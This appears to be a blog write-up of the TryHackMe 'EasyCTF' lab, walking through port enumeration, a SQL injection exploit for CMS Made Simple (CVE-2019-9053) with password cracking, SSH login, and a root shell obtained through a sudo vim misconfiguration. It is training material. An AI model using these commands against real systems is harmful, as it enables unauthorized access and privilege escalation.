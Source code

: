 ```yaml
---
title: Write-up — EasyCTF
date: 2025-06-29 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf, Easy]
image: 'assets/img/articles/EasyCTF.png'
description: The "EasyCTF" room on TryHackMe is designed as a beginner-friendly Capture The Flag (CTF) challenge. It is an excellent starting point for individuals who are new to CTFs and penetration testing.
---
```


> Walkthrough of room EasyCTF from TryHackMe :
> [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)

The room covers fundamental skills necessary for CTFs, including **scanning** and **enumeration**, research, **exploitation**, and **privilege escalation**. This makes it a great introduction to the basics of cybersecurity and ethical hacking.

---

### How many services are running under port 1000?

2 services running, **ftp** and **http**.

### What is running on the higher port?

SSH on port 2222.

### What's the CVE you're using against the application?

CMS Made simple version 2.2.8 -> **CVE-2019-9053**

### To what kind of vulnerability is the application vulnerable?

SQLi (https://www.exploit-db.com/exploits/46635)

### What's the password?

```bash
./exploit.py -u http://$TARGET/simple/ -c -w /usr/share/wordlists/rockyou.txt

[+] Salt found: 1dac0d92e9fa6bb2
[+] Username found: *****
[+] Email found: admin@admin.com
[+] Password hash found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: ******
```

`-c` for enabling cracking.

### Where can you login with the details obtained?

Through `ssh` on port 2222.

### What's the user flag?

The user flag can be retrieve by doing:

```bash
cat user.txt
```

### Is there any other user in the home directory? What's its name?

```bash
ls ..
mitch  sunbath
```

The other user is **`sunbath`**.

### What can you leverage to spawn a privileged shell?

```bash
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

By abusing **vim** privilege misconfiguration.

### What's the root flag?

```bash
sudo vim -c ':!/bin/zsh'

# Hit Enter

:r!cat /root/root.txt
```


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “You can’t have privacy without good security. Anyone saying otherwise is delusional.”

> ― Dr. Larry Ponemon, Founder, Ponemon Institute


{% include comment.html %}